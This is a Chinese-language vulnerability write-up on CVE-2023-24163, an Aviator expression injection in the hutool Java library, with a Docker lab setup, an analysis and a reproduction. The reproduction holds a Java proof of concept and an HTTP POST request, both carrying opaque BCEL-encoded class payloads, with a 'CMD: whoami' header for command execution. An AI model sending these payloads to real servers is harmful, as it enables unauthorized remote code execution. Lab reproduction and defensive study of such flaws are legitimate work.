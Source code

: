 ```
title: Dromara_hutool_aviator表达式注入漏洞（CVE-2023-24163）
date: 2024-03-13 18:53:00 +0800
img_path: /
categories: [肾透, 漏洞利用]
tags: [肾透, 漏洞利用]     
```

# Dromara_hutool_aviator表达式注入漏洞（CVE-2023-24163）

## 1 漏洞简介

`Hutool`是一个功能丰富且易用的**Java工具库**，通过诸多实用工具类的使用，旨在帮助开发者快速、便捷地完成各类开发任务。 这些封装的工具涵盖了字符串、数字、集合、编码、日期、文件、IO、加密、数据库JDBC、JSON、HTTP客户端等一系列操作， 可以满足各种不同的开发需求。

`Dromara hutool v5.8.11 `中的 SQL 注入漏洞允许攻击者通过 `aviator` 模板引擎执行任意代码。

## 2 影响范围

hutool  <= v5.8.11

## 3 环境搭建

### 3.1 导入docker image

```bash
docker load -i polarvul_dromara_hutool_cve-2023-24163.tar
```

### 3.2 启动容器

```bash
docker run -d --name polarvul_dromara_hutool_cve-2023-24163 -p 10001:8080 polarvul_dromara_hutool_cve-2023-24163:vul
```

## 4 漏洞分析

测试环境：JDK<=JDK8u251 ，maven

`pom.xml`依赖：

```xml
    <dependencies>
        <!-- https://mvnrepository.com/artifact/com.googlecode.aviator/aviator -->
        <dependency>
            <groupId>com.googlecode.aviator</groupId>
            <artifactId>aviator</artifactId>
            <version>5.3.3</version>
        </dependency>
        <dependency>
            <groupId>cn.hutool</groupId>
            <artifactId>hutool-all</artifactId>
            <version>5.8.4</version>
        </dependency>
    </dependencies>
```

测试代码：

```java
import cn.hutool.extra.expression.ExpressionUtil;

public class Main {
    public static void main(String[] args) {
        String exp = "Class.forName(\"$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeP$cbN$c2$40$U$3d$D$85B$zo$f1$fdb$r$b8$a0$hw$Q7$8a$h$f0$R1$b8$$$e3$E$HKKJ$n$fc$91k6j$5c$f8$B$7e$94$f1N$r$80$b1I$ef$c9$3ds$k$9d$7e$7d$7f$7c$C8E$c9$80$8eu$DEl$q$b0$a9pK$c7$b6$8e$j$j$bb$M$f1$batep$c6$Q$zW$3a$M$da$b9$f7$u$Y2$z$e9$8a$eb$f1$a0$x$fc$7b$bb$eb$Q$93oy$dcv$3a$b6$_$d5$3e$t$b5$e0I$8e$94$da$f3$7b$d6$85$YxVc$o$9d$gC$a2$ce$9dyn$aa$j$d8$fc$f9$ca$k$86$kjf0$da$de$d8$e7$e2R$aa$8c$a4$b2T$fb$f6$c46$91$40R$c7$9e$89$7d$iP$G$f5$f1$aa$98$K$T$878b$u$u$8d$e5$d8n$cfjL$b9$Y$G$d2s$v$feO5Cv$a9$ba$e9$f6$F$P$YrK$ean$ec$Gr$40$adFO$E$8b$a5X$ae$b4$fei$e8$W$g$95s$86$e3$f2$cai$3b$f0$a5$db$ab$ad$gn$7d$8f$8b$d1$a8$86$S$e2$f4$ab$d5$T$BS$97$a1i$d0f$R2$c2$d8$c9$h$d8$y$3c$5e$a3$Z$P$c9$uL$9a$e6$af$A$v$a4$J$T$c8$y$cc$cd0$MH$bf$p$92$8f$beB$7bx$81$d6$9c$85$5c$92$7c1JPiiB$95$99$a4OHQ$82$Z$f6$AYzuDZ$3ar$mS$3e$a4$L$3f$qO$d5$f4$k$C$A$A\",true,new com.sun.org.apache.bcel.internal.util.ClassLoader());";
        final Object eval = ExpressionUtil.eval(exp, null);
        System.out.println(eval);
    }
}
```

该漏洞存在于`hutool`中`ExpressionUtil`这个类，该类是用来处理表达式的而且使用 ***Aviator*** 模板引擎，当解析不受信任表达式字符串时，可能容易受到代码执行攻击（CVE-2021-41862），尽管使用是 ***Aviator*** 当前最新的版本(***5.3.3***)依然会受影响。

![image-20240312163225776](assets/image-20240312163225776.png)

下方可以看到`this.engine`其实是`AviatorEvaluator.getInstance()`而当传入的`expression`可控，这里就可以集合`CVE-2021-41862`这个漏洞造成RCE。

![image-20240312163316396](assets/image-20240312163316396.png)

结合BCEL可实现加载任意类。BCEL `Classloader`在 JDK < 8u251之前是在rt.jar里面，所以要求`JDK < 8u251`。

BCEL具体介绍：https://www.leavesongs.com/PENETRATION/where-is-bcel-classloader.html#/



## 5 漏洞复现

根据上方，定位到漏洞点，且`Expression`可通过控制`Json`控制。

![image-20240312170826460](assets/image-20240312170826460.png)

POC：

```poc
POST /loadConfig HTTP/1.1
Host: xxx.xxx.xxx.xxx:xxx
CMD: whoami
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*

{"Expression":"Class.forName(\"$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$d9$7b$TU$U$ff$dd6$c9L$a7$D$a5iK$h$f6E$miiB$d9i$xR$dab$91$b4$m$v$d4RP$t$d3$dbv$e8d$sL$s$a5$e0$be$x$ee$h$8a$b8$n$w$fa$f9$c4K$e8$a7$l$7c$3e$fb$a0$_$be$fa$e4$93$be$f8$l$88$e7f$SHhP$fb$7d$3d$f7$de$b3$dc$b3$fc$ce$b9$93$9f$fe$fe$fe$G$80$ad$f8VA$N$O$vx$Q$87$FI$c8$YVp$EGe$8cHxH$81$84Q$J$c7$U$8c$e1$b8$8c$T2$k$96$f1$88$8cGehB$96$94$a1$cb$Y$97$c0$85$c6$84$8cI$ZS$K$M$9cT$d0$80i$Z$a6XS2$y$Z$b6$8c$b4pvJ$86$p$n$a3$c0EV$90$Z$F$a71$ab$60$V$ce$c88$x$d6$c7$Ey$5c$c6$T2$9e$94$f0$94$82V$3c$z$e1$Z$86$40$b7a$Z$een$86$eap$e4$u$83$af$d7$k$e7$Muq$c3$e2C$d9T$92$3b$c3Z$d2$qN0n$eb$9ayTs$Mq$$0$7d$ee$94$91aX$Y$b7$9d$c9X$lO$d9$b1$fe$d9t$X$83$dc$ad$9b$85k$abf61$d4$c7Oj3Z$cc$d4$ac$c9X$af$a9e2$5dB$d0$c1$b0$a4D$e0$f0$J$93$ebnl$90$bbS$f6x$5ec$b3$f0$7b$5b$e3$60$f2$q$v$e4$r$5b$E$d9$w$c86A$b6$L$b2C$90$9d$82$ec$w$b7K$b8$8eaM$92$5d$f5L$HE$d30VI$e6$9f$d1$9c$O$K$a9$a9D$d8$3f$ab$f3$b4k$d8$W$c9$X$q$5cM$9f$k$d4$d2$f9$dc$JH$J$cf$S$8c$84$93$84$3e$w$v$83$92$b0$b3$8e$ce$f7$Z$a242U$o$wnR$d1$8e$a8$84$e7T$3c$8f$XT$bc$88$97$Y$ba$a9$5e$d1LZx$9ep$b4$U$3fm$3b$d3$d1$d3$3c$Z$d5m$cb$e5$b3n$d4$e1$a7$b2$3c$e3F$P$7bk$af$c7$k$b0$cdqN$40$bf$ac$e2$V$9cch$9c$e4nA$a3$c7$a5$3c$92Y$97$T$iuw$U$5b$c5$abx$8da$d1$9d$85$a4$ET$bc$8e7$Y$f6$fc$dfx$S$dc$991$x$3a$ad$cd$c7$92I$dbV$86$b2WnG$c6$b0$5c8$9e$8df$3c$db$dbw$U$95kHy$c41$5c$ee$a8xSD$ba$ae$dc$60$cau$d3$d1$B$o$e5$de$3d$c3$B$aeQM$ca$b2$f3$mU$f1$W$de$s$c8$f5$d48$83dg$a2$W$r$s$e1$j$V$ef$e2$3d$V$ef$e3$3c$JG$f6$P$a9$f8$A$lR$d3$c4tR$8b$r$N$x$96$99$a2c$bb$ae$e2$C$3e$o$9e$u$8bkZ$d4$c5y$XY$d70c$J$5d$b3$y$B$c5E$V$l$e3$T$V$9f$e23$J$9f$ab$b8$84$_$E$e0$97$e9$86$e3$3d$w$be$c4W$w$be$W$ae$fc$TfV$5c$ec$d7M$db$a2$a4$h$wt$99$8a$x$f8$86A$z$9d$s$86$96$bb$8dHY$d2$c3S$OU$82$daT$cf$3a$O$b7$dc$e2$b91$i$89$df$a9E$dd$dcD$a5$xtU$beG$e2$b6W$c6P$99z$89H$d8T$U$Q$M$sm$f2$i$82$$$3c$7f$b6$e6$dd$d8$e5AW$ccbO$F$9b$b1y6$91$7f$7b$w$C$865cOSYw$85$e7$bf$Xc$f3Y$91J$afJ$3d$c5$d4$c7uSs$f8x1$b6$F$Z$ee$f6$e8$3a$cfd$M$ef$c5$L$l$T$cfdi$b7$9d$c9$b8$3c$e5$N$c0$n$c7Ns$c7$3d$c3$b0$fe$3f$eap$eb$d9$a9u$ed$pi2$ea$d5$c4$u$94$a3uKI$Ws$a8$Z$W$Vxi$e9$c5$bdS$9a$93$Q$d3$60$e9$bc$xr$8c$U$F$ac$k$S$N$f3$91$ec$w$f6p$9eu8k$b9F$aa8$ac$c5CS$99Y$81M$86$3e$3e$cbiB$c2$e1$K$8fg$a9$F$95$40T$ab$dcU$81I_$Kr$b5$dfJg$5d$b2$e4$gU$ad$b9$e8$ce$b0c$r$C2o$JW$U$88$ea$ab$d9$M$ef$e3$a6$91$So$G$c3$86$bb$d7$batXE$S$W$f5$3b$81JQ$e4_$f3aG$d3$v$e7U$e1HyVEQ$bf$c9S4K$5dX$8d$8d$f4$99$V$7fU$60$e2A$t$g$a3S$8cVF$ab$bf$f5$g$d8$d5$bcx$T$d1$40$9e$a9$a2$pO$f3$K$d8$8c$z$b4$ca$f4$fb$a0$60$5c$f5$j$5dY$L0$7d$OU9T$H$7d9$f8$P$b4$G$D$d5$d7$n$e5$m$c7$db$Y$edjrP$G$L$K$b5$9e$82ZTh$N$$$ul$87$da6$Wt$3b$7d$ed$b7$b6$fe$82$ddB$b2$L$d6y$aa$8b$3a$D$Fn$bd$e0$G$7d$c4$j$ad$O6$q$84H$KI$UDc$u$e0$d1$90$afx$93$i$92B$7eR$ad$n$d5$sRU$7eDCgM$e0$3aQ$r$b8x$O$cd9$b4$EC9$y$b9$80$60H$R$3a$n$c5$X$5c$9a$b8$82$3aq$5c$96$3f$$$t$ea$P$d5$qBr$O$x$82$xK$3d$87d$ef$f2$l$b0jt$O$abCJ$OkrX$7b$N$f7$E$d7$e5$b0$3e$87$N$c2$e9$88g$Z$$d$S$92$L$e1$V$f8$91y$fc$x$a89$d0$9aC$db$c8U$B$C$he$c7$e9wOu$k$o$H$cb$88$d6$R$3c$8b$d0$8czB8H$b86$60$t$g$d1$8b$s$Ma1FIb$a3$F$e7$Q$a2$8f$c9$S$9c$c7R$5c$s$bb9$y$c7$N$ac$c0$cfX$89_$e9w$d5oX$83$df$b1$W$7f$60$3d$fe$c2$G$WA$98$f5$m$c2F$d1N$k$db$d8$JldI$82$5d$b4$c3Y$f2$a8$b2Al$c3v$3a5$b3$bd$d8A$3e$ZV$b3$9d$d8$85Nj$a0$5e$b6$Y$5d$c4$ab$c6$Q$abE7$f1$7c$Y$a5$f0$ef$a5$9d$9f$e2$f9$T$bbI$g$a0$a8$7e$c1$7d$b4$93$u$a6$i$f6$90T$a6$c8$$$a1$H$7b$a9$b1n$e0$o$e5$d1$H$85$bc$fb$d1$8f$7d$e4$ed$7e$fa$df$O$dfM$K$b8V$c2$80$84$fd$S$k$uRo$e3$ed$PH$88$D$b57$a9JT6$J$83$7e$8ap$u$df$de$H$ff$BJ$p2$3f$e7$K$A$A\",true,new com.sun.org.apache.bcel.internal.util.ClassLoader());"}
```

![image-20240312171122326](assets/image-20240312171122326.png)



